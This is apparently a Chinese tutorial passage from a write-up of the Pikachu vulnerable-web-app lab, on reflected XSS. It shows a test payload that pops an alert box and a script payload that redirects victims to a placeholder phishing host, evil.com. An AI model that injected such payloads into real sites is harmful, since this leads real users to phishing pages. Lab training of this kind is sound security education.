 随意输入内容，点击submit。可以发现我们输入的内容会被以GET的形式提交到服务器，并且会被放到响应页面中返回。

![](WEB漏洞靶场pikachu-xss\QQ截图20190321091552.png)

直接尝试最简单的测试Payload：`<script>alert(/xss/)</script>`（输入框有长度限制，直接在URL里输入）。我们输入的数据被当作JS代码执行，成功弹窗。

![](WEB漏洞靶场pikachu-xss\QQ截图20190321092149.png)

**漏洞利用(钓鱼攻击)**

简单的重定向钓鱼：

只需要将Payload改为：`<script>document.location.href="http://www.evil.com"</script>`。

`http://www.evil.com`为要重定向到的地址，即钓鱼页面。
